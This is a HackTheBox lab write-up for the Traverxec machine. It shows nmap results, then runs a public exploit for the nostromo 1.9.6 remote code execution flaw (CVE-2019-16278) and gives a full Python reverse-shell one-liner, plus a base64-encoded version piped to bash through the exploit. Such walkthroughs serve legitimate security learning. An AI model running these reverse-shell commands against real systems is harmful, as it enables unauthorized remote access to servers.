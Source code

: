 # Traverxec HackTheBox

![image](https://user-images.githubusercontent.com/5285547/124390855-611f6100-dce5-11eb-9e04-504177808d60.png)


## Nmap 

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```

What's nostromo 1.9.6? I've not seen that before. 
Let's check it out. 

## www-data 

Finding an exploit online and checking it out, seems a socket is used to connect back to the server, nice!

Exploit: https://www.exploit-db.com/exploits/47837

```
 python2.7 cve2019_16278.py 10.10.10.165 80 id
```

![image](https://user-images.githubusercontent.com/5285547/124392012-510a8000-dceb-11eb-98b7-078c1895ce3c.png)

Nice, time for a reverse shell. 

## Payload

python3
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.15",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

- Then base64 encoded
- Then urlencoded (all charaters)


- Final payload
```
python2.7 cve2019_16278.py 10.10.10.165 80 "echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjE1Iiw5OTk5KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw%3D%3D|base64 -d|bash"
```




